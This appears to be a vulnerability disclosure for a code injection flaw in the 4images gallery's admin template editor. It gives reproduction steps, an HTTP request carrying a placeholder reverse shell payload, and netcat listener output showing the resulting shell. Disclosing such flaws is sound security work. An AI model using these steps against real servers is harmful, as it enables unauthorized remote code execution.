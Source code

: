 
###Code Injection #1


To reproduce do the following:

1. Login as administrator user
2. Browse to "General" -> " Edit Templates" -> "Select Template Pack" -> "default_960px" -> "Load Theme"
3. Select Template ```"categories.html"```
4. Paste reverse shell code
5. Click "Save Changes"
6. Browse to ```"http://host/4images/categories.php?cat_id=1"```


// HTTP POST request showing reverse shell payload
```
POST /4images/admin/templates.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]

__csrf=c39b7dea0ff15442681362d2a583c7a9&action=savetemplate&content=[REVERSE_SHELL_CODE]&template_file_name=categories.html&template_folder=default_960px[...]
```


// HTTP redirect response to specific template
```
GET /4images/categories.php?cat_id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]
```

// HTTP request showing reverse shell connection
```
# nc -kvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 43032
Linux kali 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 GNU/Linux
 13:54:28 up  2:18,  2 users,  load average: 0.09, 0.68, 0.56
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali     tty7     :0               11:58    2:18m  2:21   0.48s xfce4-session
kali     pts/1    -                11:58    1:40  24.60s  0.14s sudo su
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
```








